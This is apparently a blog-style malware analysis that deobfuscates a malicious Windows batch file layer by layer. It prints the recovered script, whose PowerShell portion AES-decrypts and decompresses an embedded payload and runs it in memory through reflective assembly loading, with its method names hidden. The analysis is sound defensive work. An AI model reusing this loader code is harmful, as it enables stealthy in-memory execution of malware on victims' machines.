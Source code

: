 
It's pretty messy, but it works. Putting the first definition-execution block into the input file and running it produced this output:

![image](https://gist.github.com/assets/84212701/e5c4d73c-f685-476c-8324-04cc4545b094)

The first line is the command it's running: `@echo off`. This means that my approach works, so this layer of obfuscation is broken.

## Layer 2: `set` in `set`

Running the same code for more def-exec blocks resulted in this:

![image](https://gist.github.com/assets/84212701/8ffbb7da-cef3-4b1a-bf95-406b166fe7c3)

So all of this ended up setting MORE variables to parts of the code, hence why this section is called `set` in `set`. `set` operations were
used to obfuscate commands, most of the commands being more `set` operations. So, I modified the code to allow for nested definitions.

After that, I ran it against the whole bat file, and this was the output.

![image](https://gist.github.com/assets/84212701/01b662fa-5d33-4cc9-a0ed-b655c7293feb)

The unobfuscated script:

```bat
@echo off
set "bDOC=set "
set "PzoZ=set "
cd /d %systemdrive%
set "xNSUVcbVfZ=function cabZc($wDNPY){
$dpSWX=[System.Security.Cryptography.Aes]::Create();
$dpSWX.Mode=[System.Security.Cryptography.CipherMode]::CBC;
$dpSWX.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
$dpSWX.Key=[System.Convert]::('@F@r@o@m@B@a@s@e@6@4@S@t@r@i@n@g@'.Replace('@', ''))('ywZ4zbvE94p0AjJdsJquIr8OfpJvLV5TpDK8RHDCawA=');
$dpSWX.IV=[System.Convert]::('@F@r@o@m@B@a@s@e@6@4@S@t@r@i@n@g@'.Replace('@', ''))('gWYwrnLwvaEVn5azmkls4A==');
$duCkl=$dpSWX.CreateDecryptor();
$return_var=$duCkl.TransformFinalBlock($wDNPY, 0, $wDNPY.Length);
$duCkl.Dispose();
$dpSWX.Dispose();
$return_var;}function xHmqd($wDNPY){
$taHbo=New-Object System.IO.MemoryStream(,$wDNPY);
$KwYWp=New-Object System.IO.MemoryStream;
Invoke-Expression '$qFHGG @=@ @N@e@w@-@O@b@j@e@c@t@ @S@y@s@t@e@m@.@I@O@.@C@o@m@p@r@e@s@s@i@o@n@.@G@Z@i@p@S@t@r@e@a@m@(@$taHbo,@ @[@I@O@.@C@o@m@p@r@e@s@s@i@o@n@.@C@o@m@p@r@e@s@s@i@o@n@M@o@d@e@]@:@:@D@e@c@o@m@p@r@e@s@s@)@;@'.Replace('@', '');
$qFHGG.CopyTo($KwYWp);
$qFHGG.Dispose();
$taHbo.Dispose();
$KwYWp.Dispose();
$KwYWp.ToArray();}function bfsQm($wDNPY,$LMHlt){
$tDdAS = @(

'$Tcpjt = [System.@R@e@f@l@e@c@t@i@o@n@.Assembly]::@L@o@a@d@([byte[]]$wDNPY);'.Replace('@', ''),

'$YkCzb = $Tcpjt.EntryPoint;',

'$YkCzb.Invoke($null, $LMHlt);'
);
foreach ($WjSSe in $tDdAS) {

Invoke-Expression $WjSSe
```